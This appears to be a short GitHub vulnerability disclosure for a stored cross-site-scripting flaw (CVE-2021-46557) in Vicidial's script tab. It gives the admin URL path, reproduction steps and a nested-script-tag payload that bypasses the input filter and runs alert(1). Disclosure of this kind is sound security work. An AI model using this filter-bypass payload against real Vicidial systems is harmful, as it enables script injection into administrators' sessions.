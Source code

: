 # Vicidial-stored-XSS (CVE-2021-46557)
Vicidial is vulnerable to stored cross-site-scripting through the script tab inputs

# Reproduce
- go to the vicidial and login 
- then go to /admin.php?ADD=1111111
- in the script tab add the following javascript: "<scr<script>alert(1)</script>ipt>alert<script>alert(1)</script>(1)</scr<script>alert(1)</script>ipt>" 
- now click save, we were able to bypass the filter then view script 
- As you can see the code executed

# PoC
<img src="Screenshot 2022-01-23 090638.png">
